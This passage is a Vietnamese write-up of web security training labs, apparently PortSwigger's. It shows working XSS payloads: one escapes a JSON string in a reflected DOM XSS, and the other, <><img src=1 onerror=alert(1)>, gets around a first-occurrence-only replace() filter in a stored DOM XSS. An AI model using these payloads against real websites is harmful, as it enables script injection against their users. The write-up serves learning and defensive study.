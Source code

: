 Quan sát JSON trả về có dạng 
```json
{"results":[],"searchTerm":"abcd"}
```
![image](https://hackmd.io/_uploads/Hk70aPxI6.png)

Payload 
```json
abcd"} + alert(1); //
```
tức là
```json
{"results":[],"searchTerm":"abcd"} + alert(1); //"}
```
JSON được chèn thêm ký tự `\`, trong JS thì được hiểu đây là ký tự thoát, những lệnh sau `"` đều không được thực thi
![image](https://hackmd.io/_uploads/BJxVy_lLa.png)

Chỉ cần double dấu `\` là xong
```
abcd\"} + alert(1); //
```
![image](https://hackmd.io/_uploads/SkmVgOeIT.png)

# Lab 10: Stored DOM XSS
![image](https://hackmd.io/_uploads/BJ4D1sg8a.png)

Chèn thử `<script>alert(1)</script>` nhưng web chỉ hiện một phần của payload
![image](https://hackmd.io/_uploads/H1rGRjgIp.png)

Kiểm tra source thì thấy comment được xử lý thông qua code js trước khi load lên server
![image](https://hackmd.io/_uploads/B1HdIjgLp.png)

Web sử dụng replace() để mã hóa ký tự `<` và `>`
![image](https://hackmd.io/_uploads/HyL6Psx8a.png)

Tuy nhiên theo [doc](https://www.w3schools.com/jsref/jsref_replace.asp) thì replace chỉ thay thế ký tự xuất hiện đầu tiên
![image](https://hackmd.io/_uploads/Sk52AjeUp.png)
Vậy nên `</script>` đã biến mất

Payload
```
<><img src=1 onerror=alert(1)>
```
![image](https://hackmd.io/_uploads/HyF9gheLa.png)

# Lab 11: Reflected XSS into HTML context with most tags and attributes blocked
![image](https://hackmd.io/_uploads/rkPar2gLa.png)
